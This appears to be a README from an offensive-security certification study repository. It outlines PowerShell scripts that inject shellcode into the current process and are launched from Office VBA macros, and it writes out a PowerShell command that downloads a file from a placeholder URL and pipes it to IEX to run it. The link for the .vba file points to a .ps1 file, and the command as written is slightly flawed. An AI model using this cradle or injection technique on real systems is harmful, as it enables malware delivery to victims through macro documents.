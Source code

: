 ### PowerShell

In this repository we have some scripts that describes the process to execute a shellcode in PowerShell.

- In [InvokeWin32APIs.ps1](https://github.com/qv1ntv5/OSEP/blob/main/ClientSideAttacks/MicrosoftOffice/PowerShell/InvokeWin32APIs.ps1), we learn how to import some Win32 APIs over C# code. 
- In [ShellCodeLauncher.ps1](https://github.com/qv1ntv5/OSEP/blob/main/ClientSideAttacks/MicrosoftOffice/PowerShell/ShellCodeLauncher.ps1), we implement that Win32 APIs over our current powershell session and use it to copy our shellcode in memory and inyect it over the execution flow of the current process.
- In [VBAenvlauncher.ps1](https://github.com/qv1ntv5/OSEP/blob/main/ClientSideAttacks/MicrosoftOffice/PowerShell/VBAenvlauncher.ps1) we modify some parts of the script before to be succesfully launched in a VBA macro.

The method to use correctly this script is to use it with [PSHTTPDownloader.vba](https://github.com/qv1ntv5/OSEP/blob/main/ClientSideAttacks/MicrosoftOffice/PowerShell/VBAenvlauncher.ps1), the str var must contian the follwoing line:

powershell (New-Object System.Net.WebClient).DownloadFile('\<URL\>', '\<OUTFILE\>') | IEX